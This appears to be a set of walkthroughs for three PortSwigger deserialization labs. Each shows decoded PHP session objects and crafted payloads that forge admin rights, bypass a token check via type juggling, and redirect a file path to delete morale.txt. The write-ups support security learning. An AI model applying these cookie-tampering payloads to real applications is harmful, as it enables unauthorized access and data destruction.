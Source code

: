 ## Modifying serialized objects

[Modifying serialized objects](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-modifying-serialized-objects)

Write-up:

1. Logging in sets a session cookie: `TzTzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30%3d`

2. Base-64 decoding this gets us `O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:0;}`
Altering the admin value to 1, re-encoding the cookie and changing it in the lab
gets us admin access. Accessing the admin panel allows us to delete user `carlos`
and solve the lab. 

## Modifying serialized data types

[Modifying serialized data types](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-modifying-serialized-data-types)

Write-up:

1. Session cookie after login: `Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ1NHRhNjMzdnNyM3p2NHVpYjdrYW92aTNta284NXVhOCI7fQ%3d%3d`. 

2. Base-64 decoding this gets us: `O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"u4ta633vsr3zv4uib7kaovi3mko85ua8";}`

3. Crafting the following payload, base-64 encoding it and setting session cookie gets us admin access and allows us to delete user `carlos` and solve the lab:

    `O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";i:0;}`

## Using application functionality to exploit insecure deserialization

[Using application functionality to exploit insecure deserialization](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-using-application-functionality-to-exploit-insecure-deserialization)

Write-up:

1. Decoded session cookie after login as `wiener:peter`: `O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"sfe5z0dkqi5eq6k09qbpgak1z3gbn7x0";s:11:"avatar_link";s:19:"users/wiener/avatar";}`

2. We craft a payload to delete `morale.txt`: `O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"sfe5z0dkqi5eq6k09qbpgak1z3gbn7x0";s:11:"avatar_link";s:10:"morale.txt";}`

3. Re-encoding it, setting as session cookie and deleting our account allows us to solve the lab.

